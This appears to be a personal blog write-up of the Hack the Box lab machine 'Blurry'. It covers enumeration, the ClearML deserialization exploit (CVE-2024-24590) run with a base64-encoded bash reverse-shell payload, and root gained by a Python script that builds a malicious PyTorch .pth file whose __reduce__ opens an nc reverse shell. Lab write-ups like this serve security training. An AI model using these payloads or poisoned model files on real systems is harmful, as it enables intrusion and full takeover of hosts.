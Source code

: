 ```yaml
---
draft: false
title: "Hack the Box #5 - Blurry w/o Metasploit"
date: 2024-08-20
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_5_blurry.png
  alt: hack_the_box_5_blurry.png
---
```


I woke up this morning breathed in that sweet morning air. I could feel it, to days the day ima hack a box and come to the sun setting I had pwned this box by getting an AI model to execute a reverse shell that got me root! Here we go

![ChewingStraw](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExamtrYXIyajJ5NjFtNzRzc25mdmQzbTFsNG9xamtqbHJpZXZudXhydyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lqqB7E9CdSG76/200.gif#center)

---
## Enumeration
What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have `app` , `files` and `chat` as subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories.

I went ahead and dug around with both gobuster and manually exploring. When going to `app.blurry.htb` we get taken to an webapp and are prompted to create an account. Which I do, called `Deez` and poke around.

---
## Exploitation
In the investigation we find the `app` subdomain is running an app called **clear.ml** and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) to execute this script first we need to create credentials on our clear.ml account. 
![keys](https://i.imgur.com/457thdA.png#center)

Once that is done and the subdomain `api` is added to the hosts file we configure the exploit.
```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

Now we are primed for attack and it is time to pounce 

![pounce](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3JleDdvcjRmcXIweGN0bXkzajQwZ3BzaW1ja2x4MWV0MGQ3eWUwaiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26h0qOq4LxV8YcDKw/giphy.gif#center)


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```

And after a little wait for the ML model to execute we get a lovely call home, which leads us nicely to the first user flag and poking around the user profile we find a SSH key which helps us keep persistence on our target.
```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
jippity@blurry:~$ cat /.ssh/id_rsa
=============== PRIVATE_KEY ===============
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19
jippity@blurry:~$ 
```

---
## Privilege Escalation

With persistence achieved it is time to escalate to root. Transferring over linpeas using our newly acquired private key we can get a broadview of what vectors to escalation we have available to us. 

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
_______________________________________________________________________
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...
```

Looking through linpeas findings one thing stands out as interesting. There is a program `/usr/bin/evaluate_model` that when executed will be run as root and it doesn't require a password to do so. Taking a closer look at the script in question it looks to only take .pth files.
A .pth file is a compiled AI model file that is used by [PyTorch to save and load models](https://pytorch.org/tutorials/beginner/saving_loading_models.html). So in theory if we can create our own malicious model we can get this script to execute the malicious model and use it to escalate.

Here is the script ill be using:
```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we pass the malicious model to the `evaluate_model` script as follows and wait...
```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 
```

Looking to our netcat awaiting in the wings with baited breath... SHELL!!!
```Bash
# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================
```

And that is root baby! WINNING!!! And I get my [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/605) from Hack the Box as a reward.  Now that I can say with confidence I have hacked an AI model I'm going to go touch some grass :D

![touchGrass](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdWt0Z3Z5a2R6ODhpM2h1azVqNTExazE1MHVqMms5amZzbGwzdzBsbCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VlYBM5zERKWD5ONSzi/giphy.gif#center)


